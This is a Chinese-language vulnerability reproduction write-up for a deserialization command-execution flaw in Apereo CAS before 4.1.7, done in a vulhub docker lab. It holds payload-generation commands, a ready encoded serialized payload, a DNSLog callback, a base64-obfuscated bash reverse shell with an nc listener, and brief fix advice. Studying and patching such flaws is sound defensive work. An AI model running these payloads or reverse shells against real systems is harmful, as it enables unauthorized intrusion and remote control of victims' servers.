# Apereo CAS 4.1 反序列化命令执行漏洞

## 漏洞描述

Apereo CAS是一款Apereo发布的集中认证服务平台，常被用于企业内部单点登录系统。

其4.1.7版本之前存在一处默认密钥的问题，利用这个默认密钥我们可以构造恶意信息触发目标反序列化漏洞，进而执行任意命令。


Webflow中使用了默认密钥changeit

```
public class EncryptedTranscoder implements Transcoder {
    private CipherBean cipherBean;
    private boolean compression = true;
 
    public EncryptedTranscoder() throws IOException {
        BufferedBlockCipherBean bufferedBlockCipherBean = new BufferedBlockCipherBean();
        bufferedBlockCipherBean.setBlockCipherSpec(new BufferedBlockCipherSpec("AES", "CBC", "PKCS7"));
        bufferedBlockCipherBean.setKeyStore(this.createAndPrepareKeyStore());
        bufferedBlockCipherBean.setKeyAlias("aes128");
        bufferedBlockCipherBean.setKeyPassword("changeit");
        bufferedBlockCipherBean.setNonce(new RBGNonce());
        this.setCipherBean(bufferedBlockCipherBean);
    }

```


## 影响范围

Aperep CAS 4.1.7之前


## 相关工具

[vulhub/Apereo-CAS-Attack: WIP: Demo for Attacking Apereo CAS](https://github.com/vulhub/Apereo-CAS-Attack)


[Runtime.exec Payload Generater | AresX's Blog](https://ares-x.com/tools/runtime-exec)


[DNSLog Platform](http://www.dnslog.cn/)


## 环境配置

vulhub

```
docker-compose up -d
docker-compose ps
```


访问web主界面

http://192.168.1.15:8080/cas/login




## 漏洞复现

利用apereo-cas-attack-1.0-SNAPSHOT-all.jar生成payload

```
java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "touch /tmp/success"
```

```
6c331b59-647f-453a-ae89-f2dda84b2367_AAAAIgAAABBi4sgdLotRNIDjPdurCXEEAAAABmFlczEyOK0%2F9KdnbKCH4%2B03CFcHsuo5TNNbMGQ3PT0Dlr2j3N4lrThHDT5SqOg5YyclibUwNlN8iGfNwyX4HIxCoILfBWnLfCeIwiPHczMZ7KmQUzUjdfssAmBCNxJMe5roesWYRE83l3RQBt%2FSrapJ23lJrERrMOELeT5LYP74xiTZ%2BZchfgHCzZeVVkn8y2v6RR668P1euXv4cCncMJ66R6HKx3sy7vpZOYqV6PeERusodhB1E8adsEwLtTtLPbSXbWSfW9JoECbqvx%2Fg9l91VG9LGvpiEGPTDqTUrUar5jbEBNEyleQAdwa6wy%2F91FJQkY6o9zGR8OLIh5OHiDUKYI0En8UUEW%2FRHLzSWKmxxu1M%2FkSoSa8qEY4nzpd5ppKtqPx2kYGJJhrC7AptxPhBblPcGNiTmWJYj9u2SCuJ9pTeS%2BMdqyEh87Be2sr0I65ZNxwi%2FJZi8GBSXwR%2FfMSjdtrOu%2FXzMF9mwMYlzsklBfr9QIM4MYFq9UaZG274nADKurhvgdrg%2BHQCMCTg9IdUnmKag5sxXAaIZ3%2FFSpvrEJqocy2CXiKPIIopkvmM8Om3IGIGcJpsk90tnY1AvDFaa1VMbigeJ8KcvmWKRdStuMqumYxI8rA7fvtTrvkjgKaKyhg86ESDEzWe2dPgloaiJEZxbUJwVsXAj3hjQei9wT5dfHcitII3KHvWEEqY7LrV4fntryBzvSO5olDL9Nbe0NXpJBnCQMBV8%2FhF%2FIhaaJgm8sla3a7Bs5uVGiVCdnU7arIvMgJ6I0G9oNrNP3IWzIzFBuyY6on1PH0BuRu4zXuIBdNTcVtf1CJUMtvZ7%2FiNxi00cOQo6qULpalIKGPxgPXCBitvCzixUzWnwWbwdDVOFoSOLApM28JDIRUya4l%2FZ1t1rao3doojTv2FJIbpLAMZu83iXbLphjVaHuOs%2Be%2Bv%2F9KzowRKdnA7XnqtTQ%2B%2BQh9VGTxPoiAI4kEUVPoXQk9zDlbVt69JOuyiVtwt3WRTB%2BRSI9OSukfGd2CYnMwgVL00rp7Oy6Zbk33emNSS8c7lxI7cLumhO5c946IUbvdMDFiRGrebrk5%2FekQTKDCEXO4QFzSfRb1hQF%2FQrvMOJUDcoB3uTrdVkRTueICxTDCt5PUV%2B7pFc9UdYirHYsTfNlcTwvMOtbZWyYyfoItxlsmeGamK3NArsRgsu2kAxI1vR6x%2B17AxuNieDX15z2Pnaq8uXaG4NZjhV%2BFODnq9whJ1by7jXzXCgZZKJJXfV15aG9NEUGos1%2F%2BwkXOL4FVWZEASVbaVflcyIxKWyg6GqjgVj6K6M1pBQI3xy6JfuxLOd4iuHUYRGRt%2B4qISOMLpiGJOeTBhoWsp0NUO3jwzIqzeKQpTY7LIdtr0nrN7%2BsYza0hrw4u7vaq04cKl4d0YPyaSC1sg3FgKQdqtOWuN6xyLzig3dilO62wDGrgBQ8tbFXsshtPA7rYoK6AA968kOfTeGoJYoxQh%2F3GdjPrrbTsXd7QP%2BtsZ%2F88eAflnvrV15e%2Bg4nMNd89MyiJWk5zTMVQJwcmqg8cRd3TliBE3Wk%2BKeHph3ZMqQqLz%2FgXdRza%2Bk04wY6PCPdOl8Gr0Alabr4Ny%2FSSuD8wHX8%2BdbE7uE0CrfTLS7Vi4MnAltVP1t1Zr9KQHC1qDdYA463W7KpWaFiC9osh8gJjItH5gFltPWnxmrPioVHhGVrm1Meb56IZ8qaHPNFPrKXL1kAHFx2xdMsp%2BGask7FgSkv4usEM7Zic5yhXGXtVlyhsW1xTXjz0Xhvoi5hbZxItIkFoqnr4%2F1vbZaeM%2F8y%2BQLU01LNPl46fYZY2niu33SSK4hKsZjwM1Cijl%2BZRpvsiMcDdCvZbdH3E2dryKdgc32VluGAFVMJHR0l7NdHWuw%2BdbE8rTWmDfDYb3XunrcuWcc2R1lFYvj2bbWmKyy130KMkwIzr5V24ChjnJycPo3%2F3n%2FTe8xtEF0BigFrE%2FIgWNK6MxxA6SckU%2BzQ%3D%3D
```


返回登录界面，点击登录，然后抓包



将execution改为payload



进入容器中验证

```
docker ps
docker exec -it d6a7f0264c58 /bin/bash
ls /tmp
```



成功执行


尝试dnslog



```
java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "ping iuu9dz.dnslog.cn"
```








尝试反弹shell




本地开启监听

```
nc -lvp 443
```




生成payload

```
java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMjEvNDQzIDA+JjE=}|{base64,-d}|{bash,-i}"
```








成功弹回shell


## 修复建议

- 升级版本
- 更改webflow密钥